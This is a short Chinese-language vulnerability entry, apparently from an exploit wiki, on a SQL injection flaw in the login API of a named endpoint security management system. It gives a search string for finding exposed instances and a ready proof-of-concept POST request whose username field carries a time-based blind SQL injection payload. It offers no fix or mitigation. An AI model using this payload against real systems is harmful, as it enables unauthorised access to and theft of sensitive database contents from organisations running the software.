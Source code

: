 # 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 漏洞描述

辰信领创 辰信景云终端安全管理系统 login存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>辰信领创 辰信景云终端安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"辰信景云终端安全管理系统"</a-checkbox></br>

## 漏洞复现、

登录页面

![img](/assets/PeiQi-Wiki/img/1653535043300-0848f113-f483-47b4-bd33-305485f46ae8.png)

验证POC

```java
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

![img](/assets/PeiQi-Wiki/img/1653535112545-1861e3cf-b0ac-4a04-9851-3b6ccb377bd1.png)